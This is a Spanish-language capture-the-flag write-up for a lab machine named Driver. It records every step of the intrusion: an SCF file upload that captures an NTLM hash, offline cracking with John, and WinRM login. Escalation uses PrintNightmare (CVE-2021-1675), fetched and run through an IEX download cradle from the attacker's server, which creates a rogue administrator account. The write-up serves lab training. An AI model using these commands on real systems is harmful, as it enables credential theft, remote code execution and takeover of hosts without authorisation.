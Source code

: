 ## Summary

Tags: #SMB #SCF #John #Hash #Windows #WinRM #WinPEAS

- IP -> 10.10.11.106
- Ports -> TCP (445, 80, 135,5985), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 80 -> Microsoft IIS httpd 10.0
    - 135 -> Microsoft Windows RPC
    - 445 -> SMB
    - 5985 -> WinRM

## Recon
```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```
No encontramos nada relevante

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```
Acceso denegado

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
```
Acceso denegado

```bash
❯ crackmapexec smb ❮IP❯               # Para listar recursos compartidos de Windows
```
No esta firmado, SMBv1, name:DRIVER, domain:DRIVER

* Al momento de entrar a la web. Nos pide una autenticacion, por lo que ponemos el user y passwd por defaul -> admin:admin y logramos entrar.

Wappalyzer:
* IIS 10.0 - Web Servers
* PHP 7.3.25 -Programming Languaje
* JQuery 3.2.1 - JavaScript Libraries

En la parte de Firmware podemos cargar un archivo.  Por lo que estamos frente a un **SCF (Shell Comand Files) File Attack** y lo buscamos en Google. 
* [SCF_File_Attacks](https://nored0x.github.io/red-teaming/smb-share-scf-file-attacks/)

Y haremos el siguiente:
```bash
❯ nano file.scf
	[shell]
	Command=2
	IconFile=\\10.10.14.13\smbFolder\test.ico    # Colocamos nuestra IP ,el recurso que vamos a compartir se llama 'smbFolder' y se cargara un icono aunque no exista
	[Taskbar]
	Command=ToggleDesktop
```

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support # Creamos un servicio con SMB 

	# smbFolder = Nos creara un servicio compartido llamado 'smbFolder'
	# pwd = Sincronizado con la ruta absoluta actual 
	# smb2support = En Windows 10 le damos soporte a la version 2
```

Suponiendo que se esta haciendo una autenticacion por detras, despues de subir el archivo y darle 'Submit'. Podemos observar en nuestra consola que hay un usuario llamado **'Tony' con su hash.**

Creamos un archivo que contenga el hash para despues poder usar John y asi crackearlo
```bash
❯ nvim hash
	tony::DRIVER:aaaaaaaa....
```

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt <Hashfile>                              # Usamos John para crackear un hash con fuerza bruta

	# wordlist = Ruta del diccionario rockyou.txt
	# hashfile = Archivo que contiene el hash a crackear
```
Nos devuelve una **passwd=liltony**

```bash
❯ crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯      # Para el servicio 445/tcp smb abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un (+) quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo Remote management users, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

# Podemos usar evil-winrm para conectarnos, si tiene el puerto 5985 abierto
```

## User
Como tambien tenemos el puerto 5985 OPEN, nos podemos conectar por evil-winrm
```bash
❯ evil-winrm -i ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯         # Nos podemos conectar ya al servicio de administracion remota de Windows
```
Entramos a la maquina 

```bash
❯ ipconfig                                   # Nos muestra las interfaces y las direcciones IP
```

```bash
❯ whoami                                     # Miramos el nombre del usuario
```

```bash
❯ net user ❮User❯                            # Para ver los grupos locales y el RMU
```

```bash
❯ type ❮File❯                                # Nos muestra el contenido del archivo
```
Miramos el contenido de la flag user.txt en el Desktop

## Root

```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetInpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato 
	# SetLoadPrivilege = Para usar el recurso de Tarlogic

❯  whoami /all                               # Miramos todos los privilegios
```
Pero no encontramos nada que nos ayude a escalar

Para poder escalar usaremos **WinPEAS** y lo descargaremos en la maquina de atacante, para despues subirlo a la maquina victima
* [WinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) 
Nos dirigimos a: Download the **latest obfuscated and not obfuscated versions from here**, -> Despues debemos de descargar el archivo **winPeasx64.exe** esto en la maquina de atacante Linux

```bash
C:\Windows\Temp                              # Directorios con capacidad de escritura en Windows
```

Este comando se ejecuta en la maquina Windows
```bash
❯ upload /home/omar/Downloads/Firefox/winpeasx64.exe # Subimos el archivo WinPEAS a la maquina victima, colocando la ruta absoluta de la maquina de atacante en donde se encuentra
```

```bash
❯.\winpeasx64.exe   # Ejecutamos el binario en la maquina victima, y recolectara informacion para ver las vilnerabilidadses y poder escalar privilegios.
```

Encontrams que tiene una vulnerabilidad con Spoolsv, por lo que buscamos en Google como poder explotarla
* [Spoolsv-PrintNightmare LPE (PowerShell)](https://github.com/calebstewart/CVE-2021-1675)
Nos dirigimos dentro a CVE-2021-1675.ps1 y despues a Raw para poderlo clonar en la maquina de atacante Linux
```bash
❯ wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1   # Nos descargamos el binario a nuestra maquina de atacante
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para pasar el binario
```

En la maquina Windows hacemos lo siguiente para subir el archivo
```bash
❯ IEX(New-Object Net.WebClient).downloadString(‘http://10.10.14.13/CVE-2021-1675.ps1’)  # Con este comando en la maquina victima podemos subir el script en powershell que esta cargado en nuestro servidor
```

Ahora podremos crear un usuario con los privilegios NT/AuthoritySystem
```bash
❯ Invoke-Nightmare -Drivername “Xerox” -NewUser “Omar” -NewPassword “Omar123$!” # Aqui crearemos un .dll en donde pondra nuestro usuario como administrador.
```

```bash
❯ net user                  # Verificamos los usuarios y miramos que ya tenemos asignado nuestro usuario como administrador
```
 
Despues de eso volvemos a verificar con crackmapexec y buscaremos que nos ponga un pwn3d y con eso verificaremos que nos podremos conectar con evilwinrm para que nos de una consola de Administrator
```bash
❯ crackmapexec winrm 10.10.11.106 -u ‘Omar’ -p ‘Omar123$!’ # Aqui veremos si nos pone un pwned y si es asi es porque el usuario normalmente esta en un directorio que se llama 'Remote Management User'.
```
  
```bash
❯ evil-winrm -i 10.10.11.106 -u ‘Omar’ -p ‘Omar123$!’      # Nos podemos conectar ya al servicio de administracion remota de Windows como el usuario Tony
```
  
Una vez adentro buscamos la flag root.txt